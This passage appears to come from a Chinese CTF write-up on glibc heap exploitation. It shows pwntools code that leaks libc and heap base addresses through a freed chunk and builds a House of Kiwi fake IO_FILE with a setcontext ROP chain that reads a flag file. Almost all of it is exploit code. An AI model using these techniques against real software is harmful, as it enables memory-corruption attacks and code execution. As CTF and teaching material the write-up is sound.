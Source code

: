 ```python
        1,
        pop_rdi_addr,
        1,
        pop_rsi_addr,
        fake_frame_addr + 0x200,
        syscall_addr
    ]
    payload = p64(0) + p64(fake_frame_addr) + '\\x00' * 0x10 + p64(setcontext_addr + 61)
    payload += str(frame).ljust(0xF8, '\\x00')[0x28:] + 'flag'.ljust(0x10, '\\x00') + flat(rop_data)

    edit(0, fake_IO_FILE)
    edit(2, payload)

    add(8, 0x450)  # House OF Kiwi
    # gdb.attach(sh, "b _IO_cookie_write")
    run_opcode()
    sh.interactive()
```

泄露libc和heap基址
-------------

```python
# leak libc_base
add(0, 0x410)
add(1, 0x410)
add(2, 0x420)
add(3, 0x410)
delete(2)
add(4, 0x430)
show(2)
run_opcode()

libc_base = u64(sh.recvuntil('\\x7f')[-6:].ljust(8, '\\x00')) - 0x1f30b0  # main_arena + 1104
log.success("libc_base:\\t" + hex(libc_base))
libc.address = libc_base

guard = libc_base + 0x2035f0
pop_rdi_addr = libc_base + 0x2daa2
pop_rsi_addr = libc_base + 0x37c0a
pop_rax_addr = libc_base + 0x446c0
syscall_addr = libc_base + 0x883b6
gadget_addr = libc_base + 0x146020  # mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];
setcontext_addr = libc_base + 0x50bc0

# leak heapbase
edit(2, "a" * 0x10)
show(2)
run_opcode()
sh.recvuntil("a" * 0x10)
heap_base = u64(sh.recv(6).ljust(8, '\\x00')) - 0x2ae0
log.success("heap_base:\\t" + hex(heap_base))
```
